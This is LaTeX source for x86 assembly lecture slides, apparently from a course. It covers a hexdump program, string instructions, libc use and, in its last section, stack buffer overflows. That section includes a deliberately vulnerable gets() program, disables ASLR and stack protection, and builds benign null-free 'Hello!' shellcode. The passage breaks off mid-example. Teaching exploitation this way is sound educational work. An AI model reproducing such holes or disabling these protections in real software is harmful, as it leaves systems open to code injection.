\mvs
\frametitle{Simple Hexdump (example-14.S) Continued}
\begin{gascode*}{textsize=\textsize{9}{8}}
            # Loop byte_loop
            incl %esi
            decl %edi
            jnz byte_loop

        # Print out a newline
        pushl $'\n'
        call putchar
        addl $4, %esp

        # Loop read_loop
        jmp read_loop

cleanup:
    # syscall close(fd);
    movl $0x06, %eax
    movl -4(%ebp), %ebx
    int $0x80

exit:
    # syscall exit(0);
    movl $0x01, %eax
    movl $0x0, %ebx
    int $0x80

########################################
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Simple Hexdump (example-14.S) Continued}
\begin{gascode*}{textsize=\textsize{9}{8}}
putbyte:
    # Fetch argument
    movl 4(%esp), %eax
    # Isolate the top nibble 0xX0
    shrb $4, %al
    andl $0x0F, %eax
    # Convert to ASCII hex
    movl $nibble2hex, %ecx
    movb (%ecx, %eax, 1), %al
    # Print out the nibble
    pushl %eax
    call putchar
    addl $4, %esp

    # Fetch argument
    movl 4(%esp), %eax
    # Isolate the bottom nibble 0x0X
    andl $0x0F, %eax
    # Convert to ASCII hex
    movl $nibble2hex, %ecx
    movb (%ecx, %eax, 1), %al
    # Print out the nibble
    pushl %eax
    call putchar
    addl $4, %esp
    ret
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Simple Hexdump (example-14.S) Continued}
\begin{gascode*}{textsize=\textsize{9}{8}}
putchar:
    # Save %ebx
    pushl %ebx
    # syscall write(1, c, 1);
    movl $0x04, %eax
    movl $1, %ebx
    leal 8(%esp), %ecx
    movl $1, %edx
    int $0x80
    # Restore %ebx
    popl %ebx
    ret

########################################

.section .rodata
nibble2hex: .ascii "0123456789abcdef"
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Simple Hexdump (example-14.S) Runtime}
\begin{textcode}
$ as example-14.S -o example-14.o
$ ld example-14.o -o example-14

$ dd if=/dev/random of=testfile bs=1 count=23
$ od -t x1 testfile
0000000 21 1d e6 b0 a1 09 43 00 ce 00 30 eb d1 da 9b b3
0000020 b5 ed 5e 51 aa 42 a7
0000027
$ ./example-14 testfile
21 1d e6 b0 a1 09 43 00 ce 00 30 eb d1 da 9b b3
b5 ed 5e 51 aa 42 a7
$
\end{textcode}
\end{frame}

\section*{Questions?}

\part{2}

\section{Advanced Topic 10: x86 String Operations}

\begin{frame}[fragile,t]
\mvs
\frametitle{Special Instructions for {\ttfamily \%esi} and {\ttfamily \%edi}}
\begin{itemize}
  \item We've seen {\ttfamily push} and {\ttfamily pop} instructions which manipulate {\ttfamily \%esp} in a special way
  \item Special string instructions exist for {\ttfamily \%esi} and {\ttfamily \%edi}
  \begin{itemize}
    \item {\ttfamily \%esi} is the source string pointer
    \item {\ttfamily \%edi} is the destination string pointer
  \end{itemize}
  \pause
  \item {\ttfamily movs} does {\ttfamily *\%edi++ = *\%esi++}
  \item {\ttfamily cmps} does {\ttfamily cmp \%esi++, \%edi++}
  \item {\ttfamily scas} does {\ttfamily cmp \%eax, \%edi++}
  \item {\ttfamily lods} does {\ttfamily movl \%esi++, \%eax}
  \item {\ttfamily stos} does {\ttfamily movl \%eax, \%edi++}
  \pause
  \vs
  \item Instruction size suffix {\ttfamily b, w, l} determines copy, compare, move size and post-increment amount (1, 2, 4)
  \item DF flag in {\ttfamily \%eflags} determines if it is a \\ post-increment (DF=0) or post-decrement (DF=1)
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Example 1 of String Instructions (example-15.S)}
\begin{gascode}
.section .text
_start:
cld               # Clear DF, we want to post-increment

# Load str1 with 8 of 0xff
movl $str1, %edi  # Set up our string destination pointer

# Load the first four a byte at a time
movb $0xFF, %al
stosb             # *(%edi++) = %al
stosb             # *(%edi++) = %al
stosb             # *(%edi++) = %al
stosb             # *(%edi++) = %al

# Load the last four with a single dword
movl $0xFFFFFFFF, %eax
stosl             # *(%edi) = %eax, %esi += 4

# Copy str1 to str2
movl $str1, %esi  # str1 in the source
movl $str2, %edi  # str2 in the destination
# Two dword moves copies all 8 bytes
movsl
movsl
# Done!
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Example 1 of String Instructions (example-15.S) Continued}
\begin{gascode}
.section .bss
.comm str1, 8
.comm str2, 8
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Repeat Prefix for String Instructions}
\begin{itemize}
  \item String instructions can be prefixed by \\ {\ttfamily rep, repe/repz, repne/repnz}
  \item {\ttfamily rep <string instr>}
  \begin{itemize}
    \item repeat the string instruction until {\ttfamily \%ecx} is 0
  \end{itemize}
  \item {\ttfamily repe/repz <string instr>}
  \begin{itemize}
    \item repeat the string instruction until {\ttfamily \%ecx} is 0 or ZF flag is 0
  \end{itemize}
  \item {\ttfamily repne/repnz <string instr>}
  \begin{itemize}
    \item repeat the string instruction until {\ttfamily \%ecx} is 0 or ZF flag is 1
  \end{itemize}
  \item {\ttfamily \%ecx} automatically decremented for you
  \vs
  \pause
  \item Simple {\ttfamily memset()}: {\ttfamily rep stosb}
  \item Simple {\ttfamily memcpy()}: {\ttfamily rep movsb}
  \item Simple {\ttfamily strlen()}: {\ttfamily repne scasb}
  \item Simple {\ttfamily strncmp()}: {\ttfamily repe cmpsb}
  \item Can be better optimized for memory alignment and scan/copy size
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Example 2 of String Instructions (example-16.S)}
\begin{gascode}
.section .text
.global main
main:
  # memset(str, 'A', 98);
  pushl $48
  pushl $'A 
  pushl $str
  call asm_memset
  addl $12, %esp

  # str[48] = '\n'; str[49] = '\0';
  movb $'\n', str+48
  movb $0, str+49

  # printf(str);
  pushl $str
  call printf
  addl $4, %esp

  ret
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Example 2 of String Instructions (example-16.S) Continued}
\begin{gascode}
# void *memset(void *s, int c, size_t n);
asm_memset:
  pushl %edi
  pushl %ebp
  movl %esp, %ebp

  movl 12(%ebp), %edi    # %eid = s
  movl 16(%ebp), %eax    # %eax = c
  movl 20(%ebp), %ecx    # %ecx = n

  rep stosb

  movl 12(%ebp), %eax    # %eax = s

  movl %ebp, %esp
  popl %ebp
  popl %edi
  ret

.section .bss
.comm str, 50
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Example 2 of String Instructions (example-16.S) Runtime}
\begin{textcode}
$ as example-16.S -o example-16
$ gcc example-16.o -o example-16
$ ./example-16
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$
\end{textcode}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Back to the opening glibc strlen example}
\begin{customobjdumpcode}
080483cd <glibc_strlen>:
 80483cd: 57                    push   %edi

 80483ce: b9 ff ff ff ff        mov    $0xffffffff,%ecx
 80483d3: b8 00 00 00 00        mov    $0x0,%eax
 80483d8: 8b 7c 24 08           mov    0x8(%esp),%edi

 80483dc: fc                    cld    
 80483dd: f2 ae                 repnz scas %es:(%edi),%al

 80483df: b8 fe ff ff ff        mov    $0xfffffffe,%eax
 80483e4: 29 c8                 sub    %ecx,%eax

 80483e6: 5f                    pop    %edi
 80483e7: c3                    ret
\end{customobjdumpcode}
\begin{itemize}
  \item Trick is to load {\ttfamily \%ecx} with -1 or {\ttfamily 0xFFFFFFFF}
  \item Assumption: string is not longer than 4 gigabytes
  \item Reasonable assumption, compiler might not make it for you
\end{itemize}
\end{frame}

\section{Advanced Topic 11: Three Simple Optimizations}

\begin{frame}[fragile,t]
\frametitle{Three Basic Optimizations}
\mvs
\begin{itemize}
  \item Clear a register with {\ttfamily xor} rather than a {\ttfamily mov}
\vspace{0.5em}
\begin{customobjdumpcode}
   0: a1 00 00 00 00        movl    $0x0,%eax

   0: 31 c0                 xorl    %eax,%eax
\end{customobjdumpcode}
\vspace{0.5em}
  \item Use {\ttfamily lea} for general purpose arithmetic when applicable
  \begin{itemize}
    \item {\ttfamily lea} calculates the indirect memory address \\ {\ttfamily \%reg + \%reg*(1,2,4,8) + \$constant} \\ and stores the effective address without dereferencing memory
  \end{itemize}
\vspace{0.5em}
\begin{gascode}
  # Compute expression: %eax + %ebx*2 + 10
  leal 10(%eax, %ebx, 2), %eax
\end{gascode}
  \item Use a more efficient loop structure when possible
\mvs
\begin{columns}[T]
\column{0.5\textwidth}
\begin{gascode}
# for (i = 0; i < 10; i++) { ; }
xorl %ecx, %ecx
loop:
  cmpl $10, %ecx
  jge loop_done
  nop
  incl %ecx
  jmp loop
loop_done:
\end{gascode}
\column{0.5\textwidth}
\begin{gascode}
# i = 10; do { ; } while(--i != 0);
movl $10, %ecx
loop:
  nop
  decl %ecx
  jnz loop
\end{gascode}
\end{columns}
\end{itemize}
\end{frame}

\section{Advanced Topic 12: x86 Extensions}

\begin{frame}[fragile,t]
\frametitle{Overview}
\begin{itemize}
  \item Separate instruction sets
  \item x87 floating point unit
  \begin{itemize}
    \item 80-bit double-extended precision registers
    \item add, subtract, multiply, divide, square root, round, cosine, sine, compare, load/store, etc. for floating point numbers
  \end{itemize}
  \pause
  \item Single Instruction Multiple Data (SIMD) instruction sets \\ like MMX, SSE, SSE2, SSE3, SSE4, ...
  \begin{itemize}
    \item Parallel gain in that a single instruction carries out an operation (add, subtract, etc.) across multiple data blocks in parallel
    \item MMX was a SIMD instruction set for integers
    \pause
    \item SSE is SIMD instruction set for integers and floating point
    \pause
    \item SSE1 had 32-bit single precision floating point support 
    \item SSE2 added 64-bit double precision floating point support
    \pause
    \item SSE registers are {\%xmm0 - \%xmm7}, each 128-bit
    \item SSE instructions can treat a register as multiple floats, doubles, chars, shorts, etc.
  \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Scalar versus SIMD}
\begin{figure}
\centering

\includegraphics[width=\textwidth]{figures/simd.png}
\footnote{\url{http://software.intel.com/en-us/articles/introduction-to-intel-advanced-vector-extensions/}}
\end{figure}
\end{frame}

\section{Advanced Topic 13: Role of libc}

\begin{frame}[fragile,t]
\frametitle{{\ttfamily libc} for library functions and system calls}
\begin{itemize}
  \item {\ttfamily libc} provides optimized string, formatting, pattern matching, math, date and time, etc. computation functions
  \item {\ttfamily libc} wraps system calls and provides more-so platform independent data structures and interfaces
  \begin{itemize}
    \item file streams: {\ttfamily FILE *, fopen(), fclose(), fread(), fwrite()}
    \item sockets: {\ttfamily socket(), bind(), accept(), send(), recv()}
  \end{itemize}
  \item In other words, {\ttfamily libc} implements the C library of the POSIX standard
  \vs
  \vs
  \pause
  \item All accessible in assembly when linking with {\ttfamily libc}
  \item Follow {\ttfamily cdecl} calling convention
  \item You can choose not to link with libc, only use syscalls, and implement the other functionality yourself (interesting challenge)
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Example of using libc in Assembly (example-17.S)}
\begin{gascode}
.section .text
.global main
main:
  # time(NULL);
  pushl $0
  call time
  add $4, %esp

  # curtime = %eax
  movl %eax, curtime

  # localtime(%eax);
  pushl $curtime
  call localtime
  add $4, %esp

  # asctime(%eax);
  pushl %eax
  call asctime
  add $4, %esp
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Example of using libc in Assembly (example-17.S) Continued}
\begin{gascode}
  # printf("%s\n", %eax);
  pushl %eax
  pushl $formatStr
  call printf
  add $8, %esp

  ret

.section .data
.comm curtime, 4
formatStr:  .ascii "%s\0"
\end{gascode}
{\small Runtime:}
\begin{textcode}
$ as example-17.S -o example-17.o
$ gcc example-17.o -o example-17
$ ./example-17
Wed Jan 25 16:13:27 2012
$
\end{textcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{{\ttfamily libc} for dynamic memory management (heap)}
\begin{columns}[T]
\column{0.7\textwidth}
\begin{itemize}
  \item Operating system allocates heap memory for user program
  \item {\ttfamily libc} {\ttfamily malloc()} and {\ttfamily free()} manages allocations, deallocations, fragmentation of the heap
  \item Heap grows up, stack grows down
\end{itemize}
\column{0.3\textwidth}

\includegraphics[height=0.70\paperheight]{figures/memlayoutvm.png}
\end{columns}
\end{frame}

\section{Advanced Topic 14: Stack-based Buffer Overflows}

\begin{frame}[fragile,t]
\frametitle{Classic Insecure Example in C (example-18.c)}
\begin{ccode}
#include <stdio.h>

void get_input(void) {
  char buff[100];
  gets(buff);
}

int main(void) {
  printf("input: ");
  get_input();
  return 0;
}
\end{ccode}
\vs
\begin{textcode}
$ gcc -fno-stack-protector -z execstack example-18.c -o example-18
\end{textcode}
\begin{itemize}
\item We'll build this the GCC stack protector disabled and executable stack (for reasons explained in a few slides)
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Disassembly of {\ttfamily get\_input()}}
\mvs
\begin{ccode}
void get_input(void) {
  char buff[100];
  gets(buff);
}
\end{ccode}
\vs
\begin{customobjdumpcode}
$ objdump -D example-18
08048414 <get_input>:
                              # Function prologue
 8048414: 55                  push   %ebp
 8048415: 89 e5               mov    %esp,%ebp
                              # Space allocated on the stack for buff[100]
 8048417: 81 ec 88 00 00 00   sub    $0x88,%esp
                              # Address of buff in %eax
 804841d: 8d 45 94            lea    -0x6c(%ebp),%eax
                              # Pushing &buff onto the stack
 8048420: 89 04 24            mov    %eax,(%esp)
                              # gets(buff);
 8048423: e8 f8 fe ff ff      call   8048320 <gets@plt>
                              # Function epilogue
 8048428: c9                  leave  
 8048429: c3                  ret 
\end{customobjdumpcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Stack Frame of get\_input()}
\mvs
\begin{gascode*}{textsize=\textsize{8.5}{8}}
# Function prologue
push   %ebp
mov    %esp,%ebp
# Space allocated on the stack for buff[100]
sub    $0x88,%esp
# Address of buff in %eax
lea    -0x6c(%ebp),%eax
# Pushing &buff onto the stack
mov    %eax,(%esp)
# gets(buff);
call   8048320 <gets@plt>
# Function epilogue
leave
ret

# Stack frame right before call to gets()
# |    ...    |
# |  retaddr  |
# | saved ebp |
# |    buf    |
# |    buf    |
#       .
# |    buf    |
# |    buf    |
# |   &buf    | <- %esp
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Buffer Overflow}
\mvs
\begin{itemize}
  \item With a well-crafted buffer, we can inject instructions into the buffer on the stack as well as an over-written return address to those instructions
  \item When {\ttfamily get\_input()} returns, it will return to our injected instructions
\end{itemize}
\begin{figure}
\centering

\includegraphics[height=0.60\paperheight]{figures/bufferoverflow.png}
\end{figure}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Overwriting the Return Address}
\mvs
\begin{itemize}
  \item But how do we pick the return address? What is the address of stuff on the stack anyway?
  \pause
  \item Let's write a small program to find out...
\end{itemize}
\begin{ccode}
#include <stdio.h>
int main(void) {
  char c;
  printf("%x\n", &c);
  return 0;
}
\end{ccode}
\begin{textcode}
$ gcc example-19.c -o example-19
$ ./example-19
bfe3d16f
$ ./example-19
bfdef6ff
$ ./example-19
bfefbecf
\end{textcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Address Space Layout Randomization (ASLR)}
\begin{itemize}
  \item We just witnessed the effect of ASLR, which randomly initializes the position of code, libraries, heap, and stack in a user program's address space
  \item However, the addresses were all relatively close to each other, so there is an opportunity for guessing...
  \item For our purposes, let's turn off ASLR.
\end{itemize}
\vs
\begin{textcode}
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
$ ./example-19
bffff28f
$ ./example-19
bffff28f
$ ./example-19
bffff28f
\end{textcode}
\begin{itemize}
  \item Now we have an idea of where variables on the stack live
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Shellcode}
\begin{itemize}
  \item Next step is to write our instructions to inject
  \item Often called shellcode, because it often spawns a privileged shell
  \pause
  \vs\vs
  \item Must be position-independent
  \begin{itemize}
    \item Code cannot rely on absolute addresses for its data, since we're not sure exactly where it will live on the stack
  \end{itemize}
  \pause
  \item Must contain no newlines, and in other cases, no null bytes
  \begin{itemize}
    \item Otherwise {\ttfamily gets()} will stop reading input prematurely
  \end{itemize}
  \pause
  \vs
  \item Let's make it do {\ttfamily write(1, "Hello!", 6);} and {\ttfamily exit(0);}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Hello Shellcode Take 1 (example-20.S)}
\mvs
\begin{gascode}
# Clever way to get our own address
jmp get_str_addr
got_str_addr:
popl %ecx

# write(1, "Hello!", 6);
movl $0x04, %eax
movl $0x01, %ebx
movl $6, %edx
int $0x80
# exit(0);
movl $0x01, %eax
# %ebx already zero from above
int $0x80

get_str_addr:
call got_str_addr
.ascii "Hello!"
\end{gascode}
\begin{textcode}
$ as example-20.S -o example-20.o
$ ld example-20.o -o example-20
$ ./example-20
Hello!$
\end{textcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Hello Shellcode Take 1 (example-20.S) Disassembly}
\mvs
\begin{customobjdumpcode}
$ objdump -D example-20
Disassembly of section .text:
08048054 <_start>:
 8048054: eb 19                 jmp    804806f <get_str_addr>
08048056 <got_str_addr>:
 8048056: 59                    pop    %ecx
 8048057: b8 04 00 00 00        mov    $0x4,%eax
 804805c: bb 01 00 00 00        mov    $0x1,%ebx
 8048061: ba 06 00 00 00        mov    $0x6,%edx
 8048066: cd 80                 int    $0x80
 8048068: b8 01 00 00 00        mov    $0x1,%eax
 804806d: cd 80                 int    $0x80
0804806f <get_str_addr>:
 804806f: e8 e2 ff ff ff        call   8048056 <got_str_addr>
 8048074: 48                    dec    %eax
 8048075: 65                    gs
 8048076: 6c                    insb   (%dx),%es:(%edi)
 8048077: 6c                    insb   (%dx),%es:(%edi)
 8048078: 6f                    outsl  %ds:(%esi),(%dx)
 8048079: 21                    .byte 0x21
\end{customobjdumpcode}
\begin{itemize}
  \item We want to get rid of those null bytes...
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Hello Shellcode Take 2 (example-21.S)}
\mvs
\begin{gascode*}{textsize=\textsize{9}{8}}
# Clever way to get our own address
jmp get_str_addr
got_str_addr:
popl %ecx

# write(1, "Hello!", 6);
xorl %eax, %eax
xorl %ebx, %ebx
xorl %edx, %edx
incl %ebx
addb $4, %al 
addb $6, %dl 
int $0x80
# exit(0);
xorl %eax, %eax
incl %eax
# %ebx already zero from above
int $0x80

get_str_addr:
call got_str_addr
.ascii "Hello!"
\end{gascode*}
\begin{textcode*}{textsize=\textsize{9}{8}}
$ as example-21.S -o example-21.o
$ ld example-21.o -o example-21
